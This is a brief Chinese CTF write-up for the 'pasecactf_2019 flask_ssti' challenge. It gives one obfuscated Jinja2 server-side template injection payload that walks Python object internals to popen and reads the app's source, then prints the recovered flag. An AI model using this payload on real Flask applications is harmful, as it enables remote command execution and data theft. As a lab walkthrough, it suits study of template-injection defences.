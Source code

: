 ```yaml
---
title: '[pasecactf_2019]flask_ssti'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/41414542.jpg'
authorAbout: steamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-01-15 11:30:45
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1123677.png
---
```

一道没什么过滤的ssti。

    {{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("cat%20app\x2epy")["read"]()}}

找到os读源码
经过encode的flag在config里面：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210115162006.png)

然后根据得到的源码反推即可。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210115162043.png)

flag{5a4300b4-09b3-4c56-a06d-fcda5bbfd765}